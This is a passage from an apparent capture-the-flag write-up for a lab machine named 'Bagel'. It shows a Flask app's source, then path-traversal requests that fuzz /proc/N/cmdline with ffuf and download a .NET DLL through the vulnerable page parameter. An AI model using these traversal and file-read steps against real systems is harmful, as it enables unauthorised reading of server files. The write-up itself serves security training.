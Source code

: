 ```python
      resp.direct_passthrough = False
      if os.path.getsize(page) == 0:
        resp.headers["Content-Length"]=str(len(resp.get_data()))
        return resp
    else:
      return "File not found"
  else:
    return redirect('http://bagel.htb:8000/?page=index.html', code=302)

@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
  try:
    ws = websocket.WebSocket()  
    ws.connect("ws://127.0.0.1:5000/") # connect to order app
    order = {"ReadOrder":"orders.txt"}
    data = str(json.dumps(order))
    ws.send(data)
    result = ws.recv()
    return(json.loads(result)['ReadOrder'])
  except:
    return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```
{:file="app.py"}

The `/orders`{:.filepath} route establishes a websocket connection to local port 5000. The client then sends some JSON content requesting a file, and reads the response which is probably the file contents. There are also some interesting comments referring to the service on port 5000 as the "order app" and suggesting that the it is a .NET assembly. Let's see if we can find the location of the order app by fuzzing processes with command line arguments.

```bash
# bryan@attacker
for i in {1..9999}; do echo "proc/$i/cmdline"; done > cmdls.txt
ffuf -u "http://bagel.htb:8000/?page=../../../../FUZZ" -w cmdls.txt -fr 'File not found' -fs 0 -od match
tail -n1 match/* | tr \\0 ' ' | grep -v ^==\> | sort -u
```
{:.nolineno}

We find a process with the arguments `dotnet /opt/bagel/bin/Debug/net6.0/bagel.dll`, which is probably the order app process. Now we'll download the assembly at `/opt/bagel/bin/Debug/net6.0/bagel.dll`{:.filepath} and decompile it using [ILSpy](https://github.com/icsharpcode/AvaloniaILSpy) or [DNSpy](https://github.com/dnSpy/dnSpy).

```bash
# bryan@attacker
curl "http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll" -o bagel.dll
file bagel.dll # Correct format
```
{:.nolineno}
